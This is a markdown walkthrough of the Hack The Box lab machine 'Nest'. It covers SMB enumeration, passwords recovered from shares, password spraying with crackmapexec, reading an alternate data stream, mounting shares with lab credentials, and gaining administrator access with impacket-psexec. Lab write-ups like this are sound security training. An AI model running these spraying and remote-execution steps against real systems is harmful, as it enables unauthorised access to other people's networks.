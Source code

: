 # Nest Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -p- -oA fullnest 10.10.10.178``

445/tcp  open  microsoft-ds

4386/tcp open  unknown


``telnet 10.10.10.178 4386``

HQK Reporting Service V1.2

![image](https://user-images.githubusercontent.com/123066149/219978012-ef2de3c1-ee16-4f12-a81d-e5d1c908e88e.png)

# ${{\color{purple}Initial Foothold}}\ $

``smbclient -U 'guest%' -L //10.10.10.178``  **:white_check_mark:**

![nest](https://user-images.githubusercontent.com/123066149/219977952-10bf82e2-17dd-4847-9662-7c0574cb3f03.PNG)

``smbmap -u 'guest%' -p '' -H 10.10.10.178``

![nest2](https://user-images.githubusercontent.com/123066149/219977955-11587394-53bb-4003-96db-4444483d1f9e.PNG)

``tree -f``

![nest6](https://user-images.githubusercontent.com/123066149/219978096-f7d14d29-972e-4762-bcc1-762285d76e56.PNG)

### After a good enumeration I found a password in the share :

![nest7](https://user-images.githubusercontent.com/123066149/219978134-ceda178d-80e0-486f-93b5-12f9d74e7f05.PNG)

### The password was in vb format i used this site to decode it :

https://dotnetfiddle.net/LdhDaa

### See the difference in rights on the share:

``crackmapexec smb 10.10.10.178 -u 'seazeaz' -p 'azeazeazee'`` 

``crackmapexec smb 10.10.10.178 --shares -u 'TempUser' -p 'welcome2019'``

``crackmapexec smb 10.10.10.178 --shares -u 'c.smith' -p 'xRxRxPANCAK3SxRxRx'``

![image](https://user-images.githubusercontent.com/123066149/219978197-a0d102f9-3279-4ff7-a4e8-f5e79fe3eae2.png)

### Replay the password for other users :

``crackmapexec smb 10.10.10.178 -u users.lst -p welcome2019 --continue-on-success``

![nest3](https://user-images.githubusercontent.com/123066149/219978170-7567d458-4be6-4c03-9a94-38b500e6ef36.PNG)

### In a file named "Debug Mode Password.txté" I had to do a special command to find the password :

``allinfo "Debug Mode Password.txt``

``get "Debug Mode Password.txt":Password``

``cat Debug Mode Password.txt``

![nest4](https://user-images.githubusercontent.com/123066149/219978395-27c5720e-def1-46ee-8006-cfeb6154147d.PNG)

# ${{\color{purple}Exploitation}}\ $ 

### I have created directories and I mounted the share in the files to make a better enumeration :

mkdir C.Smith

mkdir L.Frost

mkdir R.Thompson

mkdir TempUser 

mount -t cifs -o 'username=L.Frost,password=welcom2019' //10.10.10.178/Users /mnt/L.Frost

mount -t cifs //10.10.10.178/Data /mnt/tmpuser -o "username=TempUser,password=welcome2019"

find .  

### OR to exploit the structure

tree -f

# ${{\color{purple}Privilege Escalation}}\ $

``telnet 10.10.10.178 4386``

HQK Reporting Service V1.2

![nest9](https://user-images.githubusercontent.com/123066149/219978750-0df318a5-091d-4117-b511-1929e1a5637e.PNG)

![nest10](https://user-images.githubusercontent.com/123066149/219978754-492ceb49-2465-4b0b-a73d-5b066e660b46.PNG)

![nest11](https://user-images.githubusercontent.com/123066149/219978757-1e3f2a5e-e0a6-4f1f-9932-31d16f3defb1.PNG)

### The password was in vb format i used this site to decode it :

https://dotnetfiddle.net/LdhDaa

``/usr/bin/impacket-psexec administrator@10.10.10.178``

![nest5](https://user-images.githubusercontent.com/123066149/219978802-4d6431df-f61c-4545-b87e-256f69e4c39b.PNG)


# ${{\color{purple}Points of Improvement}}\ $
